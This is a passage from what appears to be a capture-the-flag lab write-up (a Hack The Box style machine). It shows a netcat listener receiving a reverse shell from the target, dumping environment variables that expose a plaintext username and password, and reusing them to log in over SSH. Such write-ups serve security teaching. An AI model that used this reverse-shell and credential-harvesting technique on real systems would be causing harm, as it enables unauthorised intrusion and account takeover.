 And then we will receive the reverse shell.

```bash
 nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.4] from (UNKNOWN) [10.10.11.233] 42044
bash: cannot set terminal process group (1): Not a tty
bash: no job control in this shell
23af060675f1:/$ 
```

---
## Shell as Metalytics

_We usually will try to get a fully interactive TTY but we are inside a container, it doesn't have `script` installed and neither `python`._

Once inside the machine we can guess that we are in a container by the name of the machine: `23af060675f1`

After running the command `hostname -a` we can see that we are in the `172.17.0.2`  so we have to figure a way to pivot to the host.

### Information Leakage From ENV Variable

After trying some ways like checking sudoers, SUID, CRON Jobs and Capabilities i found nothing, after a while i checked the system **environment variables** and there are credentials for a user named *Metalytics*

```bash
23af060675f1:/$ printenv 

META_USER=metalytics
META_PASS=An4lytics_ds20223#
```

So due to the SSH service is active i will try those credentials with SSH.

```bash
ssh metalytics@10.10.11.233
metalytics@10.10.11.233's password: 
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 6.2.0-25-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Fri Jun 21 06:51:07 PM UTC 2024

  System load:              0.294921875
  Usage of /:               93.5% of 7.78GB
  Memory usage:             24%
  Swap usage:               0%
  Processes:                150
  Users logged in:          0
  IPv4 address for docker0: 172.17.0.1
  IPv4 address for eth0:    10.10.11.233
  IPv6 address for eth0:    dead:beef::250:56ff:feb9:1634

  => / is using 93.5% of 7.78GB


Expanded Security Maintenance for Applications is not enabled.

0 updates can be applied immediately.

Enable ESM Apps to receive additional future security updates.
```